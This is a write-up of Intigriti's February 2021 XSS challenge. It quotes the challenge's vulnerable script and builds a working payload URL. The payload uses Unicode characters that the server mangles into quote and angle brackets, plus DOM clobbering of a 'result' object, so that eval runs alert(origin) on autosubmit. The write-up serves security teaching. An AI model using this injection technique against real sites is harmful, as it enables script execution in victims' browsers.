



# Intigriti's February XSS Challenge Writeup


This month’s challenge, made by [Holme](https://twitter.com/holme_sec), was a little bit different than the ones I have previously solved as it had a server-side processing issue.
<!--more-->

Vulnerable page - [https://challenge-0221.intigriti.io/](https://challenge-0221.intigriti.io/)\
Vulnerable script - [https://challenge-0221.intigriti.io/script.js](https://challenge-0221.intigriti.io/script.js)


### Issue 1 - Unicode characters improper processing

Digging into the [embedded script](https://challenge-0221.intigriti.io/script.js) (see the code below) we can see there is no direct source that could reach the only dangerous sink (`eval`) at line **57**:

```javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
  }; //If the result object hasn't been defined yet, the submission must be too short
  if (result.error) {
    endGrade();
  } else {
    getQAnswer();
    if (!passQuiz()) {
      result.message = "We don't allow robots at the Unicodeversity (yet)!";
      result.error = 1;
    } else {
      result.grade = "ABCDEF"[Math.floor(Math.random() * 6)]; //Don't tell the students we don't actually read their submissions
    }
    endGrade();
  }
}

function endGrade() {
  document.getElementById("message").innerText = result.message;
  if (result.grade) {
    document.getElementById(
      "grade"
    ).innerText = `You got a(n) ${result.grade}!`;
  }
  document.getElementById("share").style.visibility = "initial";
  document.getElementById(
    "share-link"
  ).href = `https://challenge-0221.intigriti.io/?assignmentTitle=${
    document.getElementById("assignmentTitle").value
  }&assignmentText=${document.getElementById("assignmentText").value}`;
  delete result;
}

function checkLength(text) {
  if (text.length > 50) {
    result = { message: "Thanks for your submission!" };
  }
}

function getQAnswer() {
  var answer = document.getElementById("answer").value;
  if (/^[0-9]+$/.test(answer)) {
    if (typeof result !== "undefined") {
      result.questionAnswer = { value: answer };
    } else {
      result = { questionAnswer: { value: answer } };
    }
  }
}

function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}

var question = `${Math.floor(Math.random() * 10) + 1} + ${
  Math.floor(Math.random() * 10) + 1
}`;

document.getElementById("question").innerText = `${question} = ?`;

document.getElementById("submit").addEventListener("click", startGrade);

const urlParams = new URLSearchParams(location.search);
if (urlParams.has("autosubmit")) {
  startGrade();
}
```

It is a common behavior for web apps to reflect an input's name or id if provided via request body or query string, so does this app (escaping, unfortunately).


But if we try a Unicode sequence (`բարև`), we can see it doesn't get processed normally.


The first part of a Unicode character byte pair gets rendered and the second pair is getting reflected as is,
for example, in the case of letter `բ` (**U+0562**), **05** gets rendered and **62** is being returned.

### Issue 2 - DOM clobbering as a source to the dangerous sink

Now we can escape the reflection point with a doublequote using some character like `∀` (**U+2200**), but we cannot use event handlers because of **CSP** nor can construct an inline `script` element as we cannot guess a server-generated nonce value.
```CSP
script-src 'strict-dynamic' 'nonce-iR/JMMPv7suDLRND7rsPGvDzJxU=' 'unsafe-eval' http: https:;object-src 'none';base-uri 'none';
```

As said above, looking for DOM vulnerabilities, the only usable sink is `eval` (at line **56**  in the original script) in `passQuiz` function.
```Javascript
function passQuiz() {
  if (typeof result.questionAnswer !== "undefined") {
    return eval(result.questionAnswer.value + " == " + question);
  }
  return false;
}
```

And to reach it we should be able to control either `result.questionAnswer.value` or `question` variable.\
No source reaches `question`, but in line **4** we can see that result can be taken from the `window` object.
```Javascript
function startGrade() {
  var text = document.getElementById("assignmentText").value;
  checkLength(text);
  result = window.result || {
    message: "Your submission is too short.",
    error: 1,
```

So to set its value we should abuse [DOM clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering). And the rendered payload should look something like this
```html
<elem id="result">
<elem id="result" name="questionAnswer" value="alert(origin)//">
```

Looking through [MDN documentation](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes), the only usable element that has `value` attribute is `<data>` as only its first two letters (**da**) can be embedded as a hexadecimal value to start a tag normally instead of a gibberish.

Finally we can construct our payload `?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit`

- `∀` (**U+2200**) to render a doublequote (**"**),
- `㸀` (**U+3E00**) to render a greater than sign (**>**),
- `㳚` (**U+3CDA**) to render a less than sign (**<**) and reflect **DA** characters to start the `<data>` tag,
- and `autosubmit` query parameter to execute `startGrade` function without user interaction (line **71**).

Which should result in something like this being injected into the page
```html
"00>00<data id=result>00<data id=result name=questionAnswer value=alert(origin)//
```



The final URL - [https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit](https://challenge-0221.intigriti.io/?assignmentTitle=∀㸀㳚ta%20id=result㸀㳚ta%20id=result%20name=questionAnswer%20value=alert(origin)//&autosubmit)

